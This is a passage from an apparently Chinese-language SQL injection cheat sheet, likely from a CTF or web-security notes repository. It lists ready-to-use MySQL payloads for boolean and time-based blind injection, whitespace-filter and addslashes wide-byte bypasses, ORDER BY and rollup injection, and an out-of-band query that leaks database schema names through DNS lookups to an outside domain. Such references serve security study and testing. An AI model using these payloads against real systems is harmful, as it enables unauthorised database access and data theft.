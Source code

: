                 - `ERROR 1060 (42S21): Duplicate column name 'username'`
- Blind Based (Time/Boolean)
    - Boolean
        - 「有」跟「沒有」
        - `id=87 and length(user())>0`
        - `id=87 and length(user())>100`
        - `id=87 and ascii(mid(user(),1,1))>100`
        - `id=87 or ((select user()) regexp binary '^[a-z]')`
    - Time
        - 用在啥結果都看不到時
        - `id=87 and if(length(user())>0, sleep(10), 1)=1`
        - `id=87 and if(length(user())>100, sleep(10), 1)=1`
        - `id=87 and if(ascii(mid(user(),1,1))>100, sleep(10), 1)=1`

- Out of Bnad
    - Windows only
    - `select load_file(concat("\\\\",schema_name,".dns.kaibro.tw/a")) from information_schema.schemata`

- 繞過空白檢查
    - `id=-1/**/UNION/**/SELECT/**/1,2,3`
    - `id=-1%09UNION%0DSELECT%0A1,2,3`
    - `id=(-1)UNION(SELECT(1),2,3)`

- 寬字節注入
    - `addslashes()` 會讓 `'` 變 `\'`
    - 在 `GBK` 編碼中，中文字用兩個 Bytes 表示
        - 其他多字節編碼也可
        - 但要低位範圍有包含 `0x5c`(`\`)
    - 第一個 Byte 要 >128 才是中文
    - `%df'` => `%df\'` => `運'` (成功逃逸)

- Order by注入
    - 可以透過 `asc`、`desc` 簡單判斷
        - `?sort=1 asc`
        - `?sort=1 desc`
    - 後面不能接 UNION
    - 已知字段名 (可以盲注)
        - `?order=IF(1=1, username, password)`
    - 利用報錯
        - `?order=IF(1=1,1,(select 1 union select 2))` 正確
        - `?order=IF(1=2,1,(select 1 union select 2))` 錯誤
        - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
        - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 錯誤
    - Time Based
        - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
        - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒

- group by with rollup
    - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 將字串轉成純數字
    - 字串 -> 16進位 -> 10進位
    - `conv(hex(YOUR_DATA), 16, 10)`
    - 還原：`unhex(conv(DEC_DATA,10,16))`
    - 需注意不要 Overflow

